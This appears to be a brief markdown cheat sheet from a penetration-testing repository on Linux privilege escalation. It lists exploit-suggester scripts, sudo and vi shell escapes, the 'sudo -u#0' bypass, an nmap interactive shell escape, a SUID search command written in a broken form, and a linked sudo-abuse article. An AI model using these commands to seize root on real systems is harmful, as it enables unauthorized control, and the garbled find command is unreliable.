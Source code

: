 
# Privilege Escalation

## Linux
* Run auto escalation checkers in the scripts folder
  * Mike_Czumak.py <--- python2 required
  * linuxExploitSuggester.sh

* Abuse commands allowed to run as root
  * These commands can be found in sudoers files
  * $> sudo -u#0 vi anything
  * :!sh

* nmap
  * $> sudo nmap --interactive
  * !bash

* find / type -f /4000


| Description | Link |
| ------------- | ----- |
| abuse sudo command | https://null-byte.wonderhowto.com/how-to/abuse-vulnerable-sudo-versions-get-root-0212024/ |
